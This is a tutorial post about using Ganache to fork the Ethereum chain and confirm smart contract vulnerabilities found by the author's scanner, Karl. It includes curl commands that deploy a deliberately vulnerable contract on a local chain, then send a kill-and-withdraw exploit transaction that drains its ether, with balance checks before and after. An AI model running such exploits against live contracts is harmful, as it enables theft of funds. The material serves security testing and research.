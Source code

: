 ```yaml
---
title: How to Exploit Ethereum in a Virtual Environment
summary: This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts. When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain. Virtual environment A blockchain
authors:
  - Daniel Luca (@cleanunicorn)
date: 2019-02-01
some_url: 
---
```


# How to Exploit Ethereum in a Virtual Environment


> This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![](https://ipfs.infura.io/ipfs/QmWabvaWJfFg893rYCF1UDSkfFA5Ua8gbZK2E6CU88HJwd)


#### Virtual environment
A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember 
[“I accidentally killed it”](https://github.com/paritytech/parity-ethereum/issues/6995)
 ?
Another great reason to use a virtual environment is that once you send transactions to the blockchain, any other person watching it will know how to exploit it, and they may not be as diligent as you about 
[responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure)
 to the creators of the application.
Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack.

#### How to setup the virtual environment
You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.
Being part of the 
[Truffle Framework](https://truffleframework.com/)
 , a smart contract development environment, 
[Ganache](https://truffleframework.com/ganache)
 is your on-demand personal Ethereum blockchain, perfect for local development… and hacking!
Compared to 
[Geth](https://github.com/ethereum/go-ethereum)
 or 
[Parity](https://github.com/paritytech/parity-ethereum)
 , Ganache is easier to setup and it’s not as resource intensive.
You can install and run Ganache in just 2 commands (if you have 
[Node.js](https://nodejs.org/)
 installed)

```
$ npm install -g ganache-cli
$ ganache-cli
```


And you have your own personal blockchain.

#### Forking the mainnnet
A little-known feature of Ganache is 
**forking**
 another blockchain. You can think about this as 
**cloning**
  
**an existing blockchain**
 , but don’t worry, you won’t need to download the entire blockchain! Ganache will start instantly and will only query the real blockchain when it needs to, for example to read the contract’s code and state.

```
$ ganache-cli -f https://mainnet.infura.io
```


And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```
$ ganache-cli -f https://mainnet.infura.io@100
```


This will provide a 
**blockchain clone**
 that is safe to play with. It will create a local instance and you can send transactions and deploy new contracts, run your exploit and check its validity. All of this without touching the 
_real blockchain_
 , without anyone else knowing what you’re doing and without self-destructing libraries by mistake.

### Exploiting in a virtual environment walk-through
> This is where we start to go into details. You need a few things installed.

In the following example you will:



 * Run Karl and monitor for vulnerable contracts

 * Fork the chain after we find a vulnerable contract

 * Test the exploit and see if we stole some ether

#### Karl
If you don’t know about Karl, go to the GitHub page and star the project. It helps you find vulnerable contracts on Ethereum.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 
> If you find any bugs or have any problems running Karl, please report an issue.

Karl is available as a 
[PyPI package](https://pypi.org/project/karl/)
 , so you can just install it by running:

```
$ pip install --user karl
```


Typically you would point Karl at the main Ethereum network and monitor the contracts that get deployed there. For demonstration purposes, we’re going to monitor a local test chain instead. We’ll use Ganache for this test chain too.
We start a private Ganache instance.

```
$ ganache-cli -d
```


Start Karl and monitor for new contracts.

```
$ karl --rpc localhost:8545
```


In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```


We’re going to deploy a vulnerable contract ourselves.
This curl request deploys a vulnerable contract along with 1 ether.

```
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```


Karl should find a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722
```



```
Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```


Now we can fork the chain and check the vulnerability ourselves.

#### Forking the chain
The original chain is located at 
`http://localhost:8545`
 , because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```
$ ganache-cli -f http://localhost:8545 -d -p 9545
```


Each flag explained:



 *  `-f http://localhost:8545` tells Ganache what chain to fork

 *  `-d` runs Ganache in deterministic mode, the same wallets are generated every time; this is important because you can copy paste the curl commands and you don’t need to update the address that deploys the contract

 *  `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)
Once the fork is up and running, we can send the transaction that Karl reported and see if we successfully stole the contract’s ether.
First check the initial balance of the address that will exploit the vulnerable contract 
`0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`
 .

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x56bc75e2d63100000"}
```


Our current balance is 
`0x56bc75e2d63100000`
 which is exactly 100 ether in hex format.

#### Exploiting the contract
We send the transaction Karl reported

```
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545
```



```
{"id":1,"result":"0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"}
```


We see a successful response with the transaction hash in the result.

#### Checking the final balance
The last thing to do is get the final balance of the account.

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x579a71129ec175000"}
```





 *  `0x56bc75e2d63100000` initial balance

 *  `0x579a71129ec175000` final balance
Doing the math we see that the difference is almost 1 ether, the initial ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![](https://ipfs.infura.io/ipfs/QmanyTPWGb3izbf1PfhkauC3XadshJU61dQABQ4Zm9psF5)

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![](https://ipfs.infura.io/ipfs/QmYg2wkj98MEp5UzTB6W51D9881TL4v5gwLTeBSrpc6hs4)

All this goodness is already implemented and packaged for you.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 



---

- **Kauri original title:** How to Exploit Ethereum in a Virtual Environment
- **Kauri original link:** https://kauri.io/how-to-exploit-ethereum-in-a-virtual-environment/a2e4170b93024f8cb92d7b1a23e44725/a
- **Kauri original author:** Daniel Luca (@cleanunicorn)
- **Kauri original Publication date:** 2019-02-01
- **Kauri original tags:** security, Ethereum
- **Kauri original hash:** QmckYQGoaMKHyeiaG2zZTRqEbWAhqQPzcWpYisCaGvUS3s
- **Kauri original checkpoint:** QmRS3wCLX2MRi62bg9NTM89qNkgm3XjpKXciLvCKAr1f1g



